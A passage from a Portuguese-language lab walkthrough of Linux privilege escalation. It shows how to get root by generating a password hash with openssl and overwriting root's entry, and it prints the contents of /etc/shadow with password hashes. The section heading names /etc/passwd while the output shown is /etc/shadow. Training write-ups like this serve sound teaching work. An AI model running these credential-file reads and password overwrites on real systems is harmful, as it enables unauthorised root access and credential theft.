```bash
user@debian:~$ su root
Password:
root@debian:/home/user# whoami
root
```

Agora basta clicar no botão `Complete` para finalizar esse passo.

---

<div class="page"/>


## **<a id="5"> • Weak File Permissions - Writable /etc/passwd.</a>**

Aqui também vamos explorar a escalação de privilégios através de uma falha de permissão no arquivo `/etc/passwd`.

Dessa vez vamos gerar uma nova hash de senha para o usuário `root` utilizando o comando `openssl passwd` e alterar o arquivo `/etc/passwd`.

```bash
user@debian:~$ openssl passwd debian
mv3L0w8QW3fLk

user@debian:~$ cat /etc/shadow
root:mv3L0w8QW3fLk:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```
